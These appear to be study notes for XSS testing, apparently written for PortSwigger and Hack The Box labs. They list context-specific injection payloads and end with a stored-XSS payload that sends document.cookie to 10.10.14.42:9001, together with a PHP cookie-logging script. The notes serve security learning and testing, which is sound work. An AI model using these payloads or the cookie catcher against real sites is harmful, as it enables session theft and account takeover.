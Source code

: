 # Advices for testing xss
* Submit random alphanumeric values. For each entry point, submit a unique random value and determine whether the value is 
reflected in the response
* Test seperatly every entry point: includes also headers, urls, etc.
* Determine the reflection context. For each location within the response where the random value is reflected, determine its context. This might be in text between HTML tags, within a tag attribute which might be quoted, within a JavaScript string, etc => check contexts: https://portswigger.net/web-security/cross-site-scripting/contexts also use to copy tags: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
* Test a candidate payload: based on the context of reflection test the field with f.e. burp repeater
* If the candidate XSS payload was modified by the application, or blocked altogether, then you will need to test alternative payloads

# test contexts
## XSS between HTML tags
you need to introduce some new HTML tags designed to trigger execution of JavaScript.
Some useful ways of executing JavaScript are:
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>

* you might notice that tags are being blocked by firewall, you can interate all tags to see which are allowed.

## XSS in HTML tag attributes
XSS context is into an HTML tag attribute value, you might sometimes be able to terminate the attribute value, close the tag, and introduce a new one. For example:

"><script>alert('hi')</script> 
OR
" autofocus onfocus=alert(document.domain) x="

<a href="javascript:alert(document.domain)"> 
* \"-alert(1)

## XSS into JavaScript
* Breaking out of JS: </script><img src=1 onerror=alert(document.domain)>  or with alert(1)
* Breaking out of a JavaScript string: `'-alert(document.domain)-'` OR `';alert(document.domain)//` also works with `+alert`
* in case application is escaping `'` => might help: `\';alert(document.domain)//`

## Making use of HTML-encoding
out the HTML tags and attributes within a response, it will perform HTML-decoding of tag attribute values before they are processed any further. If the server-side application blocks or sanitizes certain characters that are needed for a successful XSS exploit, you can often bypass the input validation by HTML-encoding those characters. 

* <a href="#" onclick="... var input='controllable data here'; ..."> 
* we can use it to break out of js via encoding with: &apos;-alert(document.domain)-&apos;

## XSS in JavaScript template literals
For example, if the XSS context is as follows:

<script>
...
var input = `controllable data here`;
...
</script> 

exploit: `${alert(document.domain)}`

# types
## Reflected
is withing a payload or url
## Stored
Really stored on a page
<script type="text/javascript">alert(document.cookie);</script>

<script type="text/javascript">document.location='http://10.10.14.42:9001/hack.php?c='+document.cookie;</script>

### script to catch cookie
create php file "hack.php"
```php
<?php
header ('Location:http://moodle.schooled.htb');
$cookies = $_GET["c"];
$file = fopen('log.txt', 'a');
fwrite($file, $cookies . "\n\n");
?>
```
start php server with `sudo php -S 10.10.14.42:9001` on the location of the php file
## Dom
Within javascript